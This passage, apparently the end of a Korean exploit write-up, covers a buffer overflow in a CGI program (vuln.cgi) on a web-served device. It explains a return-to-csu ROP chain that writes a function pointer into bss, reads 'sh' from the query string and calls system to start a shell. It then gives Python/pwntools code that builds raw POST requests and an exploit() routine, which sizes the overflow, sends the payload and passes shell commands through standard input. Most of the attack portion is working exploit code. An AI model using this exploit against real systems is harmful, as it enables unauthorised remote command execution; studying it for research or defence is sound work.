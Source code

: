 - `chain()` 함수는 Return-to-csu 가젯을 자동으로 구성 해 줍니다.
- `L18~22` : `bss:0x20` 지점에 `get_val` 함수의 포인터를 작성합니다.
- `L25` : `get_val` 함수를 이용해 `QUERY_STRING`에서 `t` 쿼리의 값을 `bss:0x24` 지점에 작성합니다. 그 값은 `"sh"` 입니다.
- `L26` : `system` 함수를 이용해 쉘을 실행시킵니다.



#### 명령어 전달

ROP Payload가 수행되고 나면, 쉘 프로세스가 실행되고, 명령어 입력까지 대기합니다.

`POST` 메소드를 이용해 Standard input으로 쉘 명령을 전달하여 실행시킵니다.

```python
def form_packet(ip, param, content=''):
    packet  = ""
    packet += "POST http://{}/vuln.cgi?{} HTTP/1.1\r\n".format(ip, param)
    packet += "Host: {}\r\n".format(ip)
    packet += "Connection: keep-alive\r\n"
    packet += "Content-Length: {}\r\n".format(len(content))
    packet += "User-Agent: Mozilla/5.0\r\n"
    packet += "Accept: */*\r\n"
    packet += "Origin: http://{}\r\n".format(ip)
    packet += "Referer: http://{}/home.cgi\r\n".format(ip)
    packet += "Accept-Encoding: gzip, deflate\r\n"
    packet += "Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7\r\n"
    packet += "\r\n"
    packet += content
    packet += "\r\n"
    return packet.encode()
```



#### 안정화 작업

```python
def exploit(ip, command):

    # ifconfig's output length is not fixed.
    # So, we need to get the buffer first to calculate
    # the overflow size.
    log.info("Getting buffer.")
    packet = form_packet(ip, form_param())
    p = remote(ip, 80)
    p.send(packet)
    r = p.recv().decode()
    r = r[r.find("- ifconfig"):r.find("\n\n\n")+2]
    dummy_len = 0x204 - len(r)
    p.close()

    log.info("Exploit.")
    stack  = 0xbefe1db4+4
    pload  = payload(stack, leave, dummy_len)
    param  = form_param(pload, spray())
    packet = form_packet(ip, param, command)
    p = remote(ip, 80)
    p.send(packet)
    p.close()

    log.info("Success!")
```


[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))